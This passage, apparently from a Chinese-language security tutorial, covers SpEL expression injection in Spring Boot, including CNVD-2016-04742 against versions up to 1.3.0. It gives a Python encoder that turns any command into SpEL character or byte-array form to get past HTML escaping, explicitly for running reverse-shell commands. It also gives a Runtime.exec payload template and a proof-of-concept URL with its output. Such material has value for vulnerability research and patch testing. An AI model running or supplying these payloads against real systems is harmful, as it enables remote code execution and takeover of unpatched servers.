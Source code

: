 ![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2024/1/f02adcfd-7891-4c15-aa77-b056788c6c97.png?raw=true)

但是此命令执行，不会在页面上显示，只会打印出运行的对象。

如果要执行反弹shell等命令，由于页面HTML编码的原因，SPEL返回值时进行了一次html编码，所以导致取出的 值时会进行一次转义，利用如下脚本加工。

```


1.  `#coding:utf-8`

3.  `message = input('Enter message to encode:')`

5.  `print('Decoded string (in ASCII):\n')`

7.  `print('T(java.lang.Character).toString(%s)'  % ord(message[0]),  end="")`
8.  `for ch in message[1:]:`
9.   `print('.concat(T(java.lang.Character).toString(%s))'  % ord(ch),  end=""),` 
10.  `print('\n')`

12.  `print('new java.lang.String(new byte[]{',  end=""),`
13.  `print(ord(message[0]),  end="")`
14.  `for ch in message[1:]:`
15.   `print(',%s'  % ord(ch),  end=""),` 
16.  `print(')}')`




```

执行输出后再添加：

```


1.  `T(java.lang.Runtime).getRuntime().exec(payload)`


```

### [](#CNVD-2016-04742-Spring-Boot框架SPEL表达式注入漏洞 "CNVD-2016-04742 Spring Boot框架SPEL表达式注入漏洞")CNVD-2016-04742 Spring Boot框架SPEL表达式注入漏洞

影响版本：1.1.0-1.1.12、1.2.0-1.2.7、1.3.0

[https://www.cnblogs.com/litlife/p/10183137.html](https://www.cnblogs.com/litlife/p/10183137.html)

下载存在漏洞的版本1.3.0：[https://github.com/spring-projects/spring-boot/archive/v1.3.0.RELEASE.zip](https://github.com/spring-projects/spring-boot/archive/v1.3.0.RELEASE.zip)

POC：

```


1.  `/?payload=${new%20java.lang.String(new%20byte[]{70,  66,  66,  50,  48,  52,  65,  52,  48,  54,  49,  70,  70,  66,  68,  52,  49,  50,  56,  52,  65,  56,  52,  67,  50,  53,  56,  67,  49,  66,  70,  66})}`
2.  `结果：`
3.  `FBB204A4061FFBD41284A84C258C1BFB`
4.  `返回结果是md5(wooyun)`


```
